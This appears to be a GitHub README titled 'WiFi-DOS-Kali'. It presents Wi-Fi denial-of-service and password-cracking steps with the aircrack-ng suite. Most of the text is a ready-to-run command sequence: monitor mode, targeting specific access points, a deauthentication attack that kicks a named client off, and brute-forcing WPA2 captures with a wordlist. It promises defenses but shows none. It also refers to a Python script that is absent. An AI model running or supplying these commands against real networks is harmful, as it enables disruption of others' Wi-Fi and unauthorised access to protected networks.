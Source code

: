 # WiFi-DOS-Kali
Demo of Wi-Fi DoS attacks via Kali Linux (Aircrack-ng, Aireplay-ng). Covers deauth attacks, brute-force cracking, and defenses. Includes PPT on attack types, tools, and commands. For ethical research only.


# WiFi-DOS-Kali

Demo of Wi-Fi DoS attacks via Kali Linux (Aircrack-ng, Aireplay-ng).  
Covers deauth attacks, brute-force cracking, and defenses.  
Includes PPT on attack types, tools, and commands.  
**For ethical research only.**

---

## Demonstration

```bash
# View network interfaces
ifconfig

# Start monitor mode on wlan0
airmon-ng start wlan0

# Kill interfering processes
airmon-ng check kill

# Confirm monitor mode
iwconfig

# Start scanning for Wi-Fi networks
airodump-ng -i wlan0mon

# Target specific BSSID and channel
airodump-ng --bssid 8E:F5:A3:77:D6:DB -c 3 -- wlan0
airodump-ng --bssid A8:32:9A:00:CE:96 -c 11 -w /root/Desktop/wpa2 -- wlan0mon

# Deauthentication Attack (Kick clients out)
aireplay-ng -0 20 -a A8:32:9A:00:CE:96 -c 08:4A:CF:7D:47:14 wlan0mon

#Brute Force Attack
aircrack-ng -a2 -b 78:1D:BA:93:1F:9A -w /root/Desktop/rockyou.txt

aircrack-ng -a2 -b A8:32:9A:00:66:E8 -w /media/root/CAF04BE4F04BD57B/test/word.txt /media/root/CAF04BE4F04BD57B/test/Digicom-01.cap

#Stop Monitor Mode
airmon-ng stop wlan0mon
service network-manager restart


---


**#  📝 Instructions** # WiFi-DOS-Kali

1. Save the script as `wifi_dos_attack.py`.

2. Run it with `sudo`:

   ```bash
   sudo python3 wifi_dos_attack.py

3. Make sure the aircrack-ng suite is installed:
   sudo apt install aircrack-ng


